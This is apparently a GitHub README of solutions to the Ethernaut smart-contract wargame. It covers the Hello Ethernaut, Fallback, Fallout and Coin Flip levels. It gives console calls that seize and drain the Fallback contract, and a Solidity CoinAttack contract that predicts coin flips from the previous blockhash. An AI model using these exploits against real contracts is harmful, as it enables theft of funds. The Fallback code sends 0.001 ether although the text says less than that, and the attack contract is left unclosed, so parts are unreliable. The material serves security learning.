 # Ethernaut Solutions
## Introduction
This repository contains all the solution I used to complete the Ethernaut challenges.

:warning: Please do not copy/paste this content to complete Ethernaut challenges. Take time to understand the challenges! :warning:

## Hello Ethernaut
First deploy the contract by clicking "Get new instance".
Then, look at the contract.abi to get smart contract functions.
Call the password() view function, and pass the returned result as parameter to the authenticate() function.

## Fallback
By reading the code, we can identify that the receive() function should be called to get contract ownership. But we need to contribute before calling the receive function (or the call will fail).

So, we need to :
 1. call contribute with less than 0.001 ether as value
 2. call the receive function (by sending some ether)
 3. call the withdraw function

```
contract.contribute({value: toWei("0.001")});
contract.send({value: toWei("0.001")});
contract.withdraw();
```

## Fallout
The function Fal1out() allows the sender to become the owner of the contract. It is a typographical error, and the comment let us think that it is the constructor function.
But since Solidity v0.5.0, the "constructor" function is used instead of the name of the contract.


## Coin Flip


```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface CoinFlip {
    function flip(bool) external returns (bool);
}

contract CoinAttack {

  address coinContract;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor(address _coinContract) {
    coinContract = _coinContract;
  }

  function attackFlip() public {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    CoinFlip(coinContract).flip(side);
  }
```